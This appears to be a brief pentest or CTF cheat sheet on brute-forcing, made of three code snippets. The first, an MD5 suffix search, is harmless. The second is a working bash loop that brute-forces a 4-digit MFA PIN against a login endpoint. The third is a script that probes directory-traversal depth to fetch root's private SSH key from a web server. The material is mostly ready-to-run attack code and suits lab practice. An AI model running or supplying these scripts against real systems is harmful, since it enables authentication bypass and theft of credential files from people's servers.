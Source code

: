# Bruteforcing

## Find a specific hash

Find a hash that ends with your lucky number:

```
  #!/usr/bin/env python3
  from hashlib import md5
  from string import ascii_lowercase
  import itertools
  counter=1
  lucky_number='007'
  while True:
    combos=itertools.combinations_with_replacement(ascii_lowercase,r=counter)
    for combo in combos:
      string="".join(combo)
      h=md5(string.encode("utf-8"))
      the_hash=h.hexdigest()
      if the_hash.endswith(lucky_number):
        print(string,the_hash)
        exit()
    counter+=1
```

## Iterate over pins for MFA codes

Find a 4 digits pin for weak MFA:

```
  for i in {0000..9999};do echo $i; curl -s -X POST --data "code=$i" 10.10.11.44/console/mfa.php --cookie "user=user_name;pwd=egho"|wc|grep -v "1523"; if [ $? -eq 0 ]; then echo BOOM; break; fi;done
```  

## bruteforce http directory traversal

```
#!/bin/bash
url="http://localhost:" # application url
up="../"
port="8080" # application port
path="/assets/" # vulnerable app
payload=$path
target="root/.ssh/id_rsa" # target file
for((i=0;i<20;i++)); do
  payload+="$up"
  echo "[+] Testing $path/$target"
  status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$port$payload$target")
  echo -e "\tStatus code --> $status_code"
  if [[ $status_code -eq 200 ]]; then
    curl -s --path-as-is "$url$port$payload$target"
    break
  fi
done
```
